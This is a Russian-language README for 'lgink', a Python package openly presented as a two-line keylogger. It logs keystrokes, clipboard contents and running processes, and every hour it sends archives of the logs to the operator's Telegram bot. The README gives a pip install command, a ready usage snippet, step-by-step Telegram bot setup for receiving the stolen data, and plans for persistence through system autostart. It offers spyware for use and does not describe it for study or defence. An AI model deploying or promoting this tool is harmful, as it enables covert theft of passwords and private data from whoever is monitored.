


[](https://www.python.org/)

# lgink

Кейлогер всего лишь в 2 строки. Отправка в Telegram.

## Описание
`lgink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Логирование клавиатуры, буфера обмена, запущенных процессов.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других логеров.
2. Добавление в автозагрузку системы.
 
## Установка

Установить последнюю версию можно командой:
```
pip install lgink==0.0.1
```

## Пример использования
### Стандартный
```python

from lgink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID, iteration_pause=60).run()
```
Стандартный ```Logger``` запускает все доступные логгеры и отправляет собранные данные архивом вам в Telegram каждый час.

Передаваемые параметры:
* `token` - токен Telegram бота.
* `user_id` - ваш айди Telegram.
* `keyboard` - добавить логер клавиатуры (True/False).
* `clipboard` - добавить логер буфера обмена (True/False).
* `processes` - добавить логер процессов (True/False).
* `special_keys` - добавлять в логи спец клавиши Enter, Shift, Alt  и тд (True/False).
* `processes_pause` - частота проверки запущенных процессов в секундах.
* `iteration_pause` - частота отправки собранных логов в секундах.

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    
  </a>
</p>

3. Прописываем название бота, затем ник с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
